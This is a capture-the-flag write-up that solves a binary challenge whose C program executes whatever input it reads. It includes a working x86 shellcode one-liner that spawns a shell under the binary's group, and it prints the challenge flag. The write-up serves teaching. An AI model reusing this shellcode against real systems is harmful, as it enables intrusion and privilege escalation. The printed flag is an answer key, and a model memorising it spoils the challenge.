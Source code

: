 ### Solved by superkojiman

ExecteMe is an 80 point binary exploitation challenge. 

> This program will run whatever you send to it! Try to get the flag! The binary can be found at /home/execute/ on the shell server. The source can be found here.

The description actually gives away the solution. Here's the source code:

```c
#include <stdio.h>
#include <stdlib.h>

int token = 0;

typedef void (*function_ptr)();

void be_nice_to_people(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
}

int main(int argc, char **argv){
    char buf[128];

    be_nice_to_people();

    read(0, buf, 128);

    ((function_ptr)buf)();
}
```

It takes whatever input we provide and executes it. Eg:

```text
pico1139@shell:/home/execute$ ./execute 
hello
Segmentation fault (core dumped)
```

So to solve it, we just pass it some shellcode that will give us a shell:

```
pico1139@shell:/home/execute$ (printf "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" ; cat) | ./execute 
id
uid=11066(pico1139) gid=1006(execute) groups=1017(picogroup)
cat flag.txt
shellcode_is_kinda_cool
```

The flag is **shellcode_is_kinda_cool**
